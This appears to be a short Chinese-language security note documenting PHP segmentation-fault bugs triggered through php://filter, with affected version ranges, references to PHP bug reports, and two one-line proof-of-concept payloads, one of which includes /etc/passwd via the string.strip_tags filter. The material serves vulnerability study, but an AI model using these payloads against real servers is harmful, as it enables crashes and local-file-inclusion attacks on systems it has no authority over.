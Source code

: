 ## Segmentation fault

### 超大字符
#### **参考**

- https://hackmd.io/s/Hk-2nUb3Q

- https://bugs.php.net/bug.php?id=77359  

- https://www.php.net/ChangeLog-7.php
- https://www.php.net/ChangeLog-5.php

#### **版本**

- php5<5.6.39
- php7.0<7.0.33
- php7.1<7.1.25
- php7.2<7.2.13
- php7.3不可利用

#### **测试代码**

```php
file(urldecode('php://filter/convert.quoted-printable-encode/resource=data://,%bfAAAAAAAAFAAAAAAAAAAAAAA%ff%ff%ff%ff%ff%ff%ff%ffAAAAAAAAAAAAAAAAAAAAAAAA'));
```

因为安装编译特定的PHP版本太过麻烦（以后可能会做，再补充相关环境测试的截图），所以就没有截图证明了。可以查看参考文章。

### trip_tags

#### 参考文章

- https://www.jianshu.com/p/dfd049924258

#### 版本

同上，但是在版本PHP7.0.33成功复现

#### 测试代码

```php
<?php
include("php://filter/string.strip_tags/resource=/etc/passwd");
?>

```


